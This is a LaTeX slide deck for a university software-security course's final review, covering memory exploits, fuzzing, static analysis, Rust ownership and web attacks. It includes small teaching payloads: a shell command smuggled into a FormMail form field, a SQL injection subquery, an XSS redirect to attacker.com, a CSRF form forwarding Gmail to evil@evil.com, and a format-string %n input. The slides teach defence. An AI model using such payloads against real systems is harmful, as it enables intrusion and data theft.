\begin{frame}
    \titlepage
\end{frame}
\usetikzlibrary{graphdrawing}
\usetikzlibrary{graphs}
\usegdlibrary{trees}


\begin{frame}{logistics}
    \begin{itemize}
    \item CHALLENGE --- due before in-class final
        \begin{itemize}
            \item late submissions \myemph{not accepted} without prior arrangement
        \end{itemize}
    \item Final Exam --- Rice 130 (this room) --- 2PM --- 11 May
        \begin{itemize}
            \item 90 minutes
            \item target length similar to midterms
            \item more focus on post-last-midterm
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{quick review}
    \begin{itemize}
    \item part 1: malware and anti-malware
    \item part 2: (memory) vulnerabilities and exploits and mitigations
    \item part 3: bug-finding/prevention and misc. vulnerabilities and exploits
    \end{itemize}
\end{frame}

\begin{frame}{malware --- evil software}
    \begin{itemize}
        \item tricks itself onto victim machines
            \begin{itemize}
            \item e.g. masquarde as useful software
            \item e.g. embed in legitimate software (viruses)
            \item e.g. attack vulnerabilities in software to spread
            \item e.g. arrange to run automatically on disk insert
            \end{itemize}
        \item cat-and-mouse game --- antivirus software to detect malware
            \begin{itemize}
            \item patterns, heuristics to detect
            \item tricks to appear like normal software
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{memory vulnerabilities and exploits}
    \begin{itemize}
        \item buffer overflow/underflow --- program writes outside of array
            \begin{itemize}
            \item if ``important'' data, attacker can gain control
            \item usual goal: overwrite pointer to code
            \end{itemize}
        \item use-after-free --- program uses data as wrong type
            \begin{itemize}
                \item attacker controls data as one type
                \item ideally, misinterpreted (via dangling pointer) to contain pointer to code
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{memory exploit mitigations}
    \begin{itemize}
        \item bounds-checking --- don't allow outside-of-array writes
            \begin{itemize}
            \item doesn't solve use-after-free
            \item single object with array and pointers?
            \end{itemize}
        \item stack canaries --- detect writes next to return addresses
        \item ASLR --- make it so program can't make up useful pointers?
            \begin{itemize}
            \item problem: memory bugs can print out pointers
            \end{itemize}
        \item W xor X --- make it so attacker can't write new code
            \begin{itemize}
            \item problem: attack can reuse existing code (return-oriented programming)
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{bug-finding}
    \begin{itemize}
        \item systematic testing --- find crashes ($\approx$ vulnerability)
            \begin{itemize}
            \item fuzz testing --- generate random tests
            \item coverage-guided fuzz-testing --- random tests, weighted by what runs
            \item symbolic execution --- solve for input to reach each possibility
            \end{itemize}
        \item static analysis --- look for dangerous patterns
            \begin{itemize}
            \item usually false positives and/or negatives
            \item typically examine potential paths through program
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{bug-prevention}
    \begin{itemize}
        \item ownership --- enforceable rule to prevent use-after-free
            \begin{itemize}
            \item never free while object is owned
            \item one writer (could be changing internal pointers) or many readers
            \item readers and writers can borrow from owner
            \item language (e.g. Rust) can track borrowing lifetimes to make safe
            \end{itemize}
        \item alternate safe policies --- reference counting, etc.
            \begin{itemize}
            \item have runtime overhead, but can be used only when needed
            \end{itemize}
        \item escape hatch --- only check small amount of unsafe code
            \begin{itemize}
            \item ideally implements policies that make sense
            \item at least limits the code one needs to check
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{command injection/web security}
    \begin{itemize}
        \item command injection --- type confusion problems
            \begin{itemize}
            \item try to embed constant/etc., end up embedding commands
            \item lots of languages to embed in --- command line, SQL, HTML, \ldots
            \end{itemize}
        \item web security
            \begin{itemize}
                \item same origin policy (SOP) --- isolate by domain name (mostly)
            \item XSS --- command injection for the web
            \item trusting client inputs --- the attacker controls their browser
            \item CSRF --- innocent browser submits bad request (w/ cookies) for attacker
            \item clickjacking --- ``steal'' user's click to make request
            \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{BACKUP SLIDES}
\end{frame}


\begin{frame}{AddressSanitizer versus Baggy Bounds}
    \begin{itemize}
    \item pros vs baggy bounds:
        \begin{itemize}
        \item you can actually use it (comes with GCC/Clang)
        \item byte-level precision --- no ``padding'' on objects
        \item detects use-after-free a lot of the time
        \end{itemize}
    \item cons vs baggy bounds:
        \begin{itemize}
        \item doesn't prevent out-of-bounds ``targetted'' accesses
        \item requires extra space between objects
        \item usually slower
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=bbFuzz]{`blackbox' fuzzing}
\lstset{
    language=C++,
    style=small,
    moredelim={**[is][\btHL<2>]{~flip~}{~end~}},
    moredelim={**[is][\btHL<3>]{~parse~}{~end~}},
}
\begin{lstlisting}
void fuzzTestImageParser(std::vector<byte> &originalImage) {
  for (int i = 0; i < NUM_TRIES; ++i) {
    std::vector<byte> testImage;
    testImage = originalImage;
    int numberOfChanges = rand() % MAX_CHANGES;
    for (int j = 0; j < numberOfChanges; ++j) {
      /* flip some random bits */
      ~flip~testImage[rand() % testImage.size()] ^= rand() % 256;~end~
    }
    int result = ~parse~TryToParseImage(testImage);~end~
    if (~parse~result == CRASH~end~) ...
  }
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=formatKnow]{fuzzing from format knowledge (1)}
    \begin{itemize}
        \item make a random document generator
            \begin{itemize}
                \item before: small number of manually chosen examples (often 1)
            \end{itemize}
    \end{itemize}
    \begin{lstlisting}[language=Java, style=small]
String RandomHTML() {
    if (random() > 0.2) {
        String tag = GetRandomTag();
        if (random() > 0.2) {
            return "<" + tag + ">" + RandomHTML() +
                  "</" + tag + ">";
        } else {
            return "<" + tag + ">";
        }
    } else
        return RandomText();
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=choosePath0]{symbolic execution example}
\lstset{language=C,style=smaller}
\begin{lstlisting}
void foo(int a, int b) {
  if (a != 0) {
    b -= 2;
    a += b;
  }
  if (b < 5) {
    b += 4;
  }
  assert(a + b != 5);
}
\end{lstlisting}
    \begin{tikzpicture}[overlay, remember picture]
        \tikzset{
            every node/.style={font=\scriptsize},
            condition/.style={draw=red,thick,ellipse},
            question/.style={fill=red!20,draw=black,thick,align=left},
            dashedQuestion/.style={fill=red!20,draw=black,dashed,thick,align=left},
            state/.style={draw=blue,thick,rectangle,align=center},
            invisible/.style={opacity=0,text opacity=0},
        }
        \begin{scope}[tree layout,grow=down]
            \node[state,desired at={([xshift=-5cm,yshift=-1cm]current page.north east)}] (top) {a: $\alpha$, b: $\beta$}
                child { node[condition,visible on=<2->] { a != 0 }
                    child { node[state,visible on=<3->,alt=<4>{very thick}{thick}] {$\alpha\not=0$\\a: $\alpha+\beta - 2$, b: $\beta - 2$} edge from parent[visible on=<3->] node {true}
                        child { node[condition,visible on=<4->] { b < 5 } edge from parent[visible on=<4->]
                            child {
                                node[state,visible on=<5->] {
                                    $\alpha\not=0\text{; }\beta-2<5$ \\ a: $\alpha+\beta-2$, b: $\beta + 2$
                                } edge from parent[visible on=<5->] node {true}
                                child {
                                    node[question,visible on=<6->] {
                                        $\alpha \not= 0$; $\beta - 2 < 5$; \\
                                        $\alpha + 2\beta = 5$? \\
                                        \hrulefill
                                        \text{can} happen: $(\alpha,\beta)=(5,0)$
                                    } edge from parent[visible on=<6->]
                                }
                            }
                            child { node[state,visible on=<7->] {$\alpha\not=0\text{; }\beta-2\ge5$ \\ a: $\alpha+\beta-2$, b: $\beta - 2$}
                                edge from parent[visible on=<7->] node {false}
                                child { node[visible on=<7->,dashedQuestion] {} edge from parent[visible on=<7->] }
                            }
                        }
                    }
                    child { node[state,visible on=<3->] {$\alpha=0$\\a: $\alpha$, b: $\beta$} edge from parent[visible on=<3->] node {false}
                        child { node[condition,visible on=<8->] { b < 5 } 
                            edge from parent[visible on=<8->]
                            child { node[state,visible on=<8->] {$a=0\text{; }\beta<5$ \\ a: $\alpha$, b: $\beta+4$} edge from parent[visible on=<8->] node {true}
                                child { node[visible on=<8->,dashedQuestion] {} edge from parent[visible on=<8->] }
                            }
                            child { node[state,visible on=<8->] {$a=0\text{; }\beta\ge5$ \\ a: $\alpha$, b: $\beta$} edge from parent[visible on=<8->] node {false}
                                child { node[visible on=<8->,dashedQuestion] {} edge from parent[visible on=<8->] }
                            }
                        }
                    }
                }
                ;
        \end{scope}
    \end{tikzpicture}
    \begin{itemize}
        \item<2> every variable represented as an \myemph{equation}
        \item<2> final step: generate solution for each path
            \begin{itemize}
                \item 100\% test coverage
            \end{itemize}
    \end{itemize}
\imagecredit{Adapted from Hicks, ``Symbolic Execution for Finding Bugs''}
\end{frame}

\begin{frame}[fragile,label=findMemError]{paths for memory errors}
\begin{lstlisting}
void foo(int a, int b) {
  char buffer[10];
  if (a <= 10) {
    // added bounds-checking:
    assert(inBounds(buffer+a+b));
    buffer[a + b] = b;
  }
}
\end{lstlisting}
    \begin{tikzpicture}[overlay, remember picture]
        \tikzset{
            every node/.style={font=\scriptsize},
            condition/.style={draw=red,thick,ellipse},
            state/.style={draw=blue,thick,rectangle,align=center},
        }
        \begin{scope}[tree layout,grow=down]
            \node[state,desired at={([xshift=-3.5cm,yshift=-2.5cm]current page.north east)}] (top) {a: $\alpha$, b: $\beta$, buffer: unset}
                child { node[condition] { a <= 10 }
                    child { node[state] {$\alpha\le 10$\\a: $\alpha$, b: $\beta$} edge from parent node {true}
                        child { node[condition] { in-bounds? } 
                            child { node[state] {$\alpha\not=0\text{; }0\le\beta+\alpha\le9$ \\ a: $\alpha$, b: $\beta$, buffer[$\alpha+\beta$]: $\beta$} edge from parent node {true}
                            }
                            child { node[state,ultra thick,fill=red!20] {$\alpha\le 10\text{; }\beta+\alpha > 10 \text{ or } < 0$ \\ a: $\alpha$, b: $\beta$} edge from parent node {false}
                            }
                        }
                    }
                    child { node[state] {$\alpha>10$\\a: $\alpha$, b: $\beta$} edge from parent node {false}
                    }
                }
                ;
        \end{scope}
    \end{tikzpicture}
    \begin{itemize}
        \item add bounds checking assertions --- try to solve to satisfy
    \end{itemize}
\end{frame}

\begin{frame}{tricky parts in symbolic execution}
    \begin{itemize}
    \item dealing with pointers?
        \begin{itemize}
        \item one method: one path for each valid value of pointer
        \end{itemize}
    \item solving equations?
        \begin{itemize}
        \item NP-hard (boolean satisfiablity) --- not practical in general
        \item ``good enough'' for small enough programs/inputs
        \item \ldots after lots of tricks
        \end{itemize}
    \item how many paths?
        \begin{itemize}
        \item $<100\%$ coverage in practice
        \item small input sizes (limited number of variables)
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=coverageSame]{coverage-guided example}
    \lstset{language=C,style=script}
    \begin{tikzpicture}
        \node[anchor=north east] at (0, 0) {
\begin{lstlisting}
void foo(int a, int b) {
    if (a != 0) {
        // W
        b -= 2;
        a += b;
    } else {
        // X
    }
    if (b < 5) {
        // Y
        b += 4;
        if (a + b > 50) {
            // Q
            ...
        }
    } else {
        // Z
    }
}
\end{lstlisting}
};
        \tikzset{
            caseBox/.style={draw,thick,align=left,font=\small},
            variantBox/.style={draw,thick,dashed,align=left,font=\fontsize{10}{11}\selectfont},
        }
        \node[caseBox,anchor=north west] (baseA) at (1, 0) {
            initial test case A: \\ a = 0x17, b = 0x08; covers: WZ
        };
        \begin{visibleenv}<2>
            \node[anchor=north west,font=\small] at (1, -1.25) {
                generate random tests based on  A
            };
            \node[variantBox,anchor=north west] (subA) at (1, -2) {
                a = 0x37, b = 0x08; covers: WZ \\
                a = 0x15, b = 0x08; covers: WZ \\
                a = 0x17, b = 0x0c; covers: WZ \\
                a = 0x13, b = 0x08; covers: WZ \\
                a = 0x17, b = 0x08; covers: WZ \\
                \ldots \\
                a = 0x17, b = 0x00; covers: \myemph<2>{WY} 
            };
        \end{visibleenv}
        \begin{visibleenv}<3-4>
            \node[caseBox,draw=red,anchor=north west] (baseB) at (1, -1.2) {
                \myemph<3>{found } test case B: \\ a = 0x17, b = 0x00; covers: WY
            };
        \end{visibleenv}
        \begin{visibleenv}<4>
            \node[anchor=north west,font=\small] at (1, -2.5) {
                generate random tests based on A, B
            };
            \node[variantBox,anchor=north west] (subA) at (1, -3.5) {
                a = 0x37, b = 0x08; covers: WZ \\
                a = 0x04, b = 0x00; covers: WY \\
                a = 0x17, b = 0x01; covers: WZ \\
                a = 0x16, b = 0x00; covers: WY \\
                \ldots \\
                a = 0x97, b = 0x00; covers: \myemph<4>{WYQ} \\
                \ldots \\
                a = 0x00, b = 0x08; covers: \myemph<4>{XY} \\
            };
        \end{visibleenv}

    \end{tikzpicture}
\end{frame}


\begin{frame}[fragile,label=useAfterFree1]{checking use-after-free (1)}
    \lstset{
        language=C,style=script,
        moredelim={**[is][\btHL<2>]{~2~}{~end~}},
    }
\begin{tikzpicture}
\node[anchor=north east] at (-.2, 0) {
\begin{lstlisting}
int *someFunction(int foo, int bar) {
    int *quux = malloc(sizeof(int));
    // A
    if (Complex(foo)) {
        free(quux);
        // B
    }
    ...
    if (Complex(bar)) {
        // C
        *quux = bar;
    }
    ...
}
\end{lstlisting}
};

    \tikzset{flow/.style={draw,thick,font=\fontsize{9}{10}\selectfont,anchor=north west},
    flowLine/.style={thick,-Latex}}
    \begin{scope}[y=0.8cm]
        \node[flow,dashed] (A) at (0, 0) { A: quux: \textit{allocated} };
        \node[flow] (B) at (1, -1) { B: quux: \textit{freed} };
        \node[flow] (C1) at (1, -2) { C (from \textit{freed}): USE-AFTER-FREE };
        \begin{visibleenv}<2->
        \node[flow] (C2) at (1, -4) { C (from \textit{allocated}): ok };
        \end{visibleenv}
        \draw[flowLine] (B.east) -- ++(1cm, 0cm);
        \draw[flowLine] ([xshift=.5cm]A.south west) |- ([yshift=.1cm]B.west);
        \draw[flowLine] ([yshift=-.1cm]B.west) -- ++(-.2cm, 0cm) |- ([yshift=.1cm]C1.west);
        \begin{visibleenv}<2->
        \draw[flowLine] ([xshift=.5cm]A.south west) |- ([yshift=.1cm]C2.west);
        \end{visibleenv}
    \end{scope}
    
    \begin{visibleenv}<3->
        \node[draw=red,very thick,fill=white,align=center] at (0, -6) {
            static analysis can give warning --- probably bad 
            \only<4->{\\ but maybe \texttt{Complex(foo) == !Complex(bar)}}
        };
    \end{visibleenv}
\end{tikzpicture}
\end{frame}


\begin{frame}[fragile,label=useAfterFree2]{checking use-after-free (2)}
    \lstset{
        language=C,style=script,
        moredelim={**[is][\btHL<2>]{~2~}{~end~}},
    }
\begin{tikzpicture}
\node[anchor=north east] at (-.2, 0) {
\begin{lstlisting}
void someFunction() {
    int *quux = malloc(sizeof(int));
    ...
    // A
    do {
        // B
        ...
        if (someFunction()) {
            free(quux);
            // C
        }
        ...
        // D
    } while (complexFunction());
    ...
    // E
    *quux++;
}
\end{lstlisting}
};
    \tikzset{flow/.style={draw,thick,font=\fontsize{9}{10}\selectfont,anchor=north west},
    flowLine/.style={thick,-Latex},
    flowLineB/.style={very thick,dotted,-Latex},
    }
    \begin{scope}[y=0.8cm]
        \begin{visibleenv}<1->
        \node[flow] (A) at (0, 0) { A: \textit{allocated} };
        \draw[flowLine] ([xshift=.5cm]A.south west) |- ([yshift=.1cm]B.west);
            \node[flow,alt=<3>{red}{},alt=<1-2>{dashed}] (B) at (1, -1) { B (from \textit{allocated}): \textit{allocated} };
        \end{visibleenv}
        \begin{visibleenv}<2->
        \node[flow] (C1) at (1, -2) { C (from \textit{allocated}): quux: \textit{freed} };
            \node[flow,alt=<1-4>{dashed}{}] (D1) at (1, -3) { D (from \textit{freed}): \textit{freed} };
        \node[flow] (E1) at (2, -4) { E (from \textit{freed}): USE-AFTER-FREE };
        \draw[flowLine] ([yshift=-.1cm]B.west) -- ++(-.2cm, 0cm) |- ([yshift=.1cm]C1.west);
        \draw[flowLine] ([yshift=-.1cm]C1.west) -- ++(-.2cm, 0cm) |- ([yshift=.1cm]D1.west);
        \draw[flowLine] ([yshift=-.1cm]D1.west) -- ++(-.2cm, 0cm) |- ([yshift=.1cm]E1.west);
        \end{visibleenv}
        \begin{visibleenv}<3->
        \node[flow,alt=<3>{dashed}{}] (D2) at (1, -5) { D (from \textit{allocated}): \textit{allocated} };
        \draw[flowLine,alt=<3>{red}{}] ([yshift=-.1cm]B.west) -- ++(-.3cm, 0cm) |- ([yshift=.1cm]D2.west);
        \node[flow] (E2) at (2, -6) { E (from \textit{allocated}): ok };
        \draw[flowLine,alt=<3>{red}{}] ([yshift=-.1cm]D2.west) -- ++(-.2cm, 0cm) |- ([yshift=.1cm]E2.west);
        \end{visibleenv} 
        \begin{visibleenv}<4->
        \draw[flowLineB,alt=<4>{red}{}] ([yshift=-.1cm]D2.east) -- ++(2.5cm, 0cm) |- ([yshift=.1cm]B.east);
        \end{visibleenv} 
        \begin{visibleenv}<5->
            \node[flow,alt=<5>{dashed}{}] (B2) at (1, -7) { B (from \textit{freed}): \textit{freed} };
            \draw[flowLine,alt=<5>{red}{}] ([yshift=-.1cm]D1.west) -- ++(-.8cm, 0cm) |- ([yshift=.1cm]B2.west);
            \node[flow] (C2) at (1, -8) { C (from \textit{freed}): DOUBLE-FREE };
            \draw[flowLine] ([yshift=-.1cm]B2.west) -- ++(-.8cm, 0cm) |- ([yshift=.1cm]C2.west);
        \end{visibleenv} 
        \begin{visibleenv}<6->
            \draw[flowLineB,alt=<6>{red}{}] ([yshift=-.1cm]B2.east) -- ++(3cm, 0cm) |- ([yshift=.2cm]D1.east);
        \end{visibleenv}
    \end{scope}
\end{tikzpicture}
\end{frame}

\begin{frame}{static analysis over symbolic execution}
    \begin{itemize}
        \item can deal with hard cases by \myemph{being imprecise}
        \begin{itemize}
        \item can't try every path? generalize
        \item generate false positives and/or false negatives
        \end{itemize}
        \item can deal with hard cases with \textit{annotations}
        \begin{itemize}
        \item ``I promise this value is allocated here''
        \item ``I promise this value is freed here''
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{Rust disciplines}
    \begin{itemize}
    \item each object has \myemph{single owner} --- only deleter
    \item object may be \myemph{borrowed} from owner --- owner can't delete
    \item exactly one writer or many readers (never both)
        \begin{itemize}
        \item no reading internal pointers that then change
        \end{itemize}
    \item compiler tracking of \myemph{lifetimes} of borrowing
    \item alternate (runtime-tracked) rules: reference-counting, `dynamic' borrowing
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=bugInFormMail]{a bug in FormMail.pl}
    \begin{itemize}
        \item 1995 script
        \item example, write "You have been hacked!" to index.html
            \begin{itemize}
                \item (if user script runs as can change it)
            \end{itemize}
    \end{itemize}
    \begin{minted}[fontsize=\small,highlightlines=3]{HTML}
<form action="http://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
        value="; echo 'You have been hacked!' >index.html"
>
...
<input type="submit">
</form>
\end{minted}
    \begin{itemize}
        \item view HTML in web browser, click submit button
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=twentyQ2]{a game of twenty questions (2)}
    \begin{itemize}
    \item SQL supports complicated queries:
    \item example: nested queries
    \end{itemize}
\begin{minted}{SQL}
SELECT * FROM users WHERE username='' OR '1'='1'
    AND password='' OR
    (SELECT 1 FROM documents
              WHERE document_id=1
              AND substr(text, 0, 1) < 'M')
    OR '2'='1'
\end{minted}
    \begin{itemize}
    \item ``subquery''
    \item questions can be about different subject matter
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=betterDBAPI]{better database APIs}
    \begin{itemize}
        \item common idea: placeholders
    \end{itemize}
\begin{minted}[startinline]{PHP}
$statement = $db->prepare("SELECT * FROM users
    WHERE username=? AND password=?");
$statement->execute([$username, $password]);
\end{minted}
\end{frame}

\begin{frame}{taint tracking rules (for injection)}
    \begin{itemize}
        \item program \myemph{input is tainted}
        \item \myemph{transitive} values computed using tainted values are tainted
            \begin{itemize}
            \item except for \myemph{explicit} ``sanitization'' operations
            \end{itemize}
        \item what about control flow? (multiple options)
        \item error if tainted values are passed to ``sensitive'' operations
            \begin{itemize}
            \item shell command
            \item SQL command
            \item \ldots
            \end{itemize}
    \end{itemize}
\end{frame}


\begin{frame}[fragile,label=storedXSS]{stored cross-site scripting}
\begin{tikzpicture}
    \node[draw,thick,inner sep=5mm,align=left,text=red!70!black,align=left] (commentBox) {
\begin{lstlisting}[language={}]
<script>
    document.location = 'http://attacker.com';
</script>
\end{lstlisting}
    };
    \node[anchor=south west] at (commentBox.north west) { Your comment: };
    \node[align=left,anchor=north west] (nameLabel) at (commentBox.south west) {
        Name: 
    };
    \node[draw,font=\tt,thick,inner sep=1mm,align=left,text=red!70!black,anchor=west,minimum width=5cm] at (nameLabel.east) {
        An Attacker
    };
\end{tikzpicture}
\end{frame}

\begin{frame}{evil client/innocent website}
    \begin{tikzpicture}
        \node[fill=red!30,minimum height=5cm,minimum width=2cm,align=center] (attacker) at (0, 0) {
            attacker's \\ web browser
        };
        \node[fill=blue!30,minimum height=5cm,minimum width=2cm,align=center] (server) at (12, 0) {
            vulnerable \\ website
        };

        \draw[thick,-Latex] ([yshift=-1cm] attacker.east) -- ([yshift=-1cm]server.west)
                node[midway,above,align=center] {
            command injection? \\ \texttt{email=\fbox{"; dangerousCommand}}
        };

        \draw[thick,-Latex] ([yshift=1cm] attacker.east) -- ([yshift=1cm]server.west) node[midway,above,align=center] {
            improperly trusted input? \\ \texttt{price=\fbox{\$0}}
        };
    \end{tikzpicture}
\end{frame}

\begin{frame}<1>[fragile,label=evilInnocent]{evil website/innoncent website}
    \begin{tikzpicture}
        \tikzset{>=Latex}
        \node[fill=green!30,minimum height=6cm,minimum width=2cm,align=center,anchor=north west] (browser) at (0, 0) {
            victim user's  \\ web browser
        };
        \node[fill=red!30,dashed,thick,draw,minimum height=2cm,minimum width=2cm,align=center,anchor=north east] (attacker) at (14, 0) {
            attacker\\ website
        };
        \node[fill=blue!30,minimum height=3cm,minimum width=2cm,align=center,anchor=north east] (server) at (14, -2.25) {
            victim \\ website
        };


        \draw[thick,<-] ([yshift=-.5cm] attacker.north west) -- ([yshift=-.5cm]browser.north east) node[midway,above] {
            get some web page
        };
        \draw[thick,->] ([yshift=-1.5cm] attacker.north west) -- ([yshift=-1.5cm]browser.north east) node[midway,above] {
            do something with victim website
        };

        \draw[thick,->] ([yshift=-2.75cm] browser.north east) -- ([yshift=-.5cm]server.north west) node[midway,above] {
            request chosen by attacker
        };
        \draw[thick,<-] ([yshift=-4.25cm] browser.north east) -- ([yshift=-2cm]server.north west) node[midway,above,align=center] {
            page with javascript chosen by attacker? \\
            \small injected command: ``send secret cookie to attacker''?
        };
        \begin{visibleenv}<2>
        \draw[thick,<-] ([yshift=-5.25cm] browser.north east) -- ([yshift=-3cm]server.north west) node[midway,above] {
            \myemph{results of action chosen by attacker?}
        };
        \end{visibleenv}
        \begin{visibleenv}<1>
        \node[fill=red!30,dashed,thick,draw,minimum height=1cm,minimum width=2cm,align=center,anchor=north east] (attacker2) at (14, -5.45) {
        };
            \draw[thick,->] ([yshift=-5.85cm] browser.north east)  -- ([yshift=-.25cm]attacker2.north west) node[midway, above] {secret values from victim website};
        \end{visibleenv}
    \end{tikzpicture}
\end{frame}

\begin{frame}<1>[label=XSSmits]{XSS mitigations}
    \begin{itemize}
    \item host dangerous stuff on different domain
        \begin{itemize}
        \item has different cookies
        \end{itemize}
    \item Content-Security-Policy
        \begin{itemize}
        \item server says ``browser, don't run scripts here''
        \end{itemize}
    \item \myemph<3>{HttpOnly cookies}
        \begin{itemize}
        \item server says ``browser, don't share this with code on the page''
        \end{itemize}
    \item \myemph<2>{filter/escape inputs} (same as normal command injection)
    \end{itemize}
\end{frame}

\begin{frame}<1>[label=noSameOrigin]{operations not requiring same origin}
    \begin{itemize}
    \item \myemph<2>{loading images, stylesheets (CSS), video, audio}
    \item \myemph<3>{linking to websites}
    \item \myemph<7>{loading scripts}
        \begin{itemize}
        \item but not getting syntax errors
        \end{itemize}
    \item \myemph<4>{accessing with ``permission'' of other website}
    \item \myemph<5>{submitting forms to other webpages}
    \item \myemph<6>{requesting/displaying other webpages \sout<7>{(but not reading contents)}}
    \end{itemize}
\end{frame}
\begin{frame}{same-origin policy}
    \begin{itemize}
        \item two pages from same \myemph{\textbf{origin}}: scripts can do anything
        \item two pages from different \myemph{\textbf{origins}}: almost no information
            \vspace{.5cm}
        \item idea: different websites can't interfere with each other
            \begin{itemize}
            \item facebook can't learn what you do on Google --- unless Google allows it
            \end{itemize}
        \item \myemph{enforced by browser}
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=submitForm]{submitting forms}
    \begin{minted}[fontsize=\fontsize{10}{11},highlightlines={4,11},highlightcolor=cyan!40]{HTML}
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf"
    enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="evil@evil.com"/> 
    ...
    <input type="hidden" name="s" value="z"/> 
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script>
document.forms[0].submit();
</script>
\end{minted}
    \begin{itemize}
    \item above form: 2007 GMail email filter form
        \begin{itemize}
        \item pre filled out: match all messages; forward to \texttt{evil@evil.com}
        \end{itemize}
    \item form will be submitted with \myemph{the user's cookies!}
    \end{itemize}
\end{frame}

\begin{frame}{Chrome architecture}
    
\includegraphics[height=0.8\textheight]{chrome-arch}
\end{frame}
\begin{frame}[fragile,label=privSepOutline]{simple privilege seperation}
    \vspace{-.5cm}
\begin{minted}[fontsize=\fontsize{10}{10}]{C}
/* dangerous video decoder to isolate */
int main() {
    /* switch to right user */
    SetUserTo("user-without-privileges"));
    while (fread(videoData, sizeof(videoData), 1, stdin) > 0) {
        doDangerousVideoDecoding(videoData, imageData);
        fwrite(imageData, sizeof(imageData), 1, stdout);
    }
}

/* code that uses it */
    FILE *fh = RunProgramAndGetFileHandle("./video-decoder");
    for (;;) {
        fwrite(getNextVideoData(), SIZE, 1, fh);
        fread(image, sizeof(image), 1, fh);
        displayImage(image);
    }
\end{minted}
\end{frame}

\begin{frame}{original Chrome sandbox interface}
    \begin{itemize}
        \item sandbox to browser ``kernel''
            \begin{itemize}
                \item show this image on screen
                \begin{itemize}
                    \item (using shared memory for speed)
                \end{itemize}
            \item \myemph<2-3>{make request\tikzmark{request} for this URL}
            \item \myemph<4>{download\tikzmark{download} files to local FS}
            \item \myemph<5>{upload\tikzmark{upload} user requested files}
            \end{itemize}
        \item browser ``kernel'' to sandbox
            \begin{itemize}
                \item send user input
            \end{itemize}
    \end{itemize}
    \begin{tikzpicture}[overlay,remember picture]
        \coordinate (middle) at ([yshift=-1cm]current page.center);
        \begin{visibleenv}<2>
            \node[mycallout=request,anchor=center,align=center]  at (middle) {
                needs filtering --- at least no \texttt{file:} (local file) URLs
            };
        \end{visibleenv}
        \begin{visibleenv}<3>
            \node[mycallout=request,anchor=center,align=center] at (middle) {
                can still read any website! \\
                still sends normal cookies!
            };
        \end{visibleenv}
        \begin{visibleenv}<4>
            \node[mycallout=download,anchor=center,align=center] at (middle) {
                files go to download directory only \\
                can't choose arbitrary filenames
            };
        \end{visibleenv}
        \begin{visibleenv}<5>
            \node[mycallout=upload,anchor=center,align=center] at ([yshift=-1cm]middle) {
                browser kernel displays file choser \\
                only permits files selected by user
            };
        \end{visibleenv}
    \end{tikzpicture}
\end{frame}


\begin{frame}{Exam 2 Stuff}
\end{frame}


\tikzset{
    stackBox/.style={very thick},
    allocBox/.style={dashed,very thick,fill=blue!20},
    onStack/.style={thick,align=center},
    frameOne/.style={fill=blue!15},
    frameTwo/.style={fill=red!15},
    markLine/.style={blue!50!black},
    markLineB/.style={red!90!black},
    hiLine/.style={red!90!black},
}
\begin{frame}[fragile,label=FormatOneSlide]{format string segfault}
    \begin{tikzpicture}
        \tikzset{every node/.style={font=\small}}
        \begin{scope}[x=1.1cm]
\draw[thick,-Latex] (-0.25,-5) -- (-0.25, -1) node [midway, above, sloped] {increasing addresses};
        \draw[stackBox] (0, 0) rectangle (4, -7);
        \draw[onStack] (0, -6) rectangle (4, -7) node[midway] {\texttt{printf} ret. addr.};
        \draw[onStack,fill=blue!30] (0, -2) rectangle (4, -6);
        \node at (2, -2.5) { buffer };
        \draw[onStack,dotted] (0, -5) rectangle (4, -6) node[midway] { \tt \%c\%c\%c\%c \\ \small(use args 2-5) };
        \draw[onStack,dotted] (0, -4) rectangle (4, -5) node[midway] { \tt \%c\%c\%.92 \\ \small(use args 6-8) };
        \draw[onStack,dotted] (0, -3) rectangle (4, -4) node[midway] { \tt u\%n \\ \small (use arg 9)};
        \draw[onStack] (0, -1) rectangle (4, -2) node[midway] { \texttt{vulnerable} ret. addr. };
        \begin{scope}[xshift=5cm]
            \draw[stackBox] (0, 0) rectangle (4, -7);
            \draw[onStack] (0, -6) rectangle (4, -7) node[midway] {\texttt{printf} ret. addr.};
            \draw[onStack] (0, -5) rectangle (4, -6) node[midway] { \texttt{printf} arg 7 (\%c) };
            \draw[onStack] (0, -4) rectangle (4, -5) node[midway] { \texttt{printf} arg 8 (\%.92u) };
            \draw[onStack] (0, -3) rectangle (4, -4) node[midway] { \texttt{printf} arg 9 (\%n) };
        \end{scope}
        \node[anchor=north west] at (8.5, 0) {
\begin{lstlisting}[language=C,style=script]
void vulnerable() {
    char buffer[32];
    fgets(buffer,
          sizeof(buffer),
          stdin);
    printf(buffer);
}

// input: 
// "%c%c%c%c%c%c%.92u%n"
\end{lstlisting}
        };
        \end{scope}
    \end{tikzpicture}
\end{frame}


\begin{frame}[fragile,label=formatExample]{format string overwrite: setup}
\lstset{
